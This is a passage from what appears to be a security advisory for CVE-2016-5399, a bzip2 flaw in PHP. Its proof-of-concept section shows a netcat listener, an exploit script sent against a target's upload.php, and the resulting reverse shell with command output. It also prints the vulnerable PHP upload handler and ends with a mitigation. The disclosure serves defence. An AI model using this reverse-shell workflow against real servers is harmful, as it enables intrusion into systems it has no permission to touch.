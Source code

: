 ```
```

bzip2-1.0.6/bzlib_private.h
```c
121 #define BZ_N_GROUPS 6
```


## PoC
Against FreeBSD 10.3 amd64 with php-fpm 7.0.8 and nginx from the
official repo [2]:

```sh
$ nc -v -l 1.2.3.4 5555 &
Listening on [1.2.3.4] (family 0, port 5555)

$ python exploit.py --ip 1.2.3.4 --port 5555 http://target/upload.php
[*] sending archive to http://target/upload.php (0)

Connection from [target] port 5555 [tcp/*] accepted (family 2, sport 49479)
$ fg
id
uid=80(www) gid=80(www) groups=80(www)

uname -imrsU
FreeBSD 10.3-RELEASE-p4 amd64 GENERIC 1003000

/usr/sbin/pkg query -g "=> %n-%v" php*
=> php70-7.0.8
=> php70-bz2-7.0.8

cat upload.php
<?php
$fp = bzopen($_FILES["file"]["tmp_name"], "r");
if ($fp === FALSE) {
    exit("ERROR: bzopen()");
}

$data = "";
while (!feof($fp)) {
    $res = bzread($fp);
    if ($res === FALSE) {
        exit("ERROR: bzread()");
    }
    $data .= $res;
}
bzclose($fp);
?>
```


## Solution
This issue has been assigned CVE-2016-5399 and can be mitigated by
calling bzerror() on the handle between invocations of bzip2.
